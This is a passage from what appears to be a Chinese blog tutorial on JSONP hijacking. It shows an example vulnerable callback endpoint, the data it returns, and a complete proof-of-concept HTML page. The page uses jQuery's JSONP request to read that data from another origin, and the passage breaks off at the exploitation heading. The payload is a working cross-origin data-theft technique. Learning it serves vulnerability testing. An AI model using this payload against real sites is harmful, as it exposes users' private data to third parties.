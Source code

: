 [![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

**漏洞证明**

如果最后爆破成功的接口为

```
http://www.xxx.com/interface?callback=attack
```

返回的数据为

```
attack({"value":1})
```

使用下面的poc:

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>jsonp劫持</title>
    <script src="js/jquery.min.js"></script>
</head>
<body>
<script type="text/javascript">
    $.ajax({
        url:"http://xxx.com/interface",
        dataType:"jsonp",
        jsonp:"callback",
        jsonpCallback:"attack",
        success:function (data) {
            alert(data.value)
        }
    })
</script>
</body>
</html>
```

[![复制代码](https://assets.cnblogs.com/images/copycode.gif)](javascript:void(0);)

jsonp 填写回调参数的名字

jsonpcallback 就是回调参数的值

alert 的地方根据需要更改取值

如果能正常取到值，就说明漏洞存在了

**漏洞利用：**

这里来看一条请求：

![img](https://img2018.cnblogs.com/blog/1344396/201903/1344396-20190318100924552-181787181.png)

